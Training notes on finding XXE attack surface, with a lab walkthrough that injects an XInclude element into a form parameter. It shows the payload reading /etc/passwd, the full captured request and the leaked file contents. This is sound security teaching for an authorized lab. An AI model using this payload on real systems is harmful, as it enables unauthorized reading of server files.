



# Finding hidden attack surface for XXE injection

Not every XXE vulnerability begins with a request whose body is visibly XML. XML may be generated server-side from form fields, API parameters, SOAP values, document uploads, or image metadata. The key question is whether attacker-controlled data reaches an XML parser.

## XInclude

XInclude can assemble an XML document from external resources. It is useful when you control only a fragment of a document and cannot inject a complete `DOCTYPE` declaration:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

### Required parts

1. `xmlns:xi` declares the XInclude namespace.
2. `xi:include` requests an external resource.
3. `parse="text"` keeps the resource as text instead of parsing it as XML.
4. `href` identifies the authorized lab file or URL.

## Where to look

- **Client data to SOAP:** A server embeds a user-controlled value into a SOAP document.
- **Form fields to XML:** A normal form is converted to an XML template before processing.
- **API parameters to XML:** JSON or query parameters are transformed into an XML request.
- **Document and image uploads:** SVG, office documents, and other XML-derived formats are parsed by libraries.
- **Content-type negotiation:** A normal endpoint may accept both form data and XML.

## Detection strategy

1. Map parameters that are copied into downstream requests.
2. Compare the behavior of form, JSON, and XML content types.
3. Inspect error messages for XML parser names or stack traces.
4. Test an authorized XInclude payload when `DOCTYPE` injection is unavailable.
5. Check upload processors and image-rendering paths separately from normal API requests.

## Advantages and limitations

XInclude does not require a `DOCTYPE`, and partial input control can be enough. The parser must support XInclude, the generated document must be processed after the injection, and the application must not disable the feature.

The companion lab demonstrates the complete request and response for file retrieval through XInclude.

---

## Lab walkthrough: XInclude file retrieval

This lab embeds the `productId` value inside a server-side XML document before parsing it. Because the request does not give direct control over the complete XML document, a classic `DOCTYPE` injection is not available. The objective is to inject an XInclude statement and retrieve `/etc/passwd`.

### 1. Understand the partial-control context

The application expects form data such as:

```text
productId=1&storeId=1
```

The server places `productId` into a larger XML document. Injecting a complete `DOCTYPE` would break the surrounding document, but an XInclude element can be inserted as the value.






### 2. Inject XInclude

Use the XInclude namespace, request text parsing, and point `href` at the lab file:

```text
productId=<productId xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></productId>&storeId=1
```

The resulting request from the source capture is:

```http
POST /product/stock HTTP/2
Host: 0a4b0081045ea8e783671499000e0061.web-security-academy.net
Cookie: session=KVaNUBda6eHqLSSa9WincufFPMXwewfD
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4b0081045ea8e783671499000e0061.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Origin: https://0a4b0081045ea8e783671499000e0061.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=<productId xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></productId>&storeId=1
```

### 3. Read the response

The server-side XML parser expands the include and returns the file content in the validation error:

```text
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2338

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/bin/bash
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/home/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
"
```



### Why XInclude works here

The application does not give the tester control of the whole XML document, so a traditional DTD is not required. XInclude is processed later by an XML-aware parser and can include a resource from a single injectable field.

!!! warning "Do not generalize the target"
    The `/etc/passwd` path is used because it is the supplied lab objective. Use only files and systems explicitly authorized for testing.
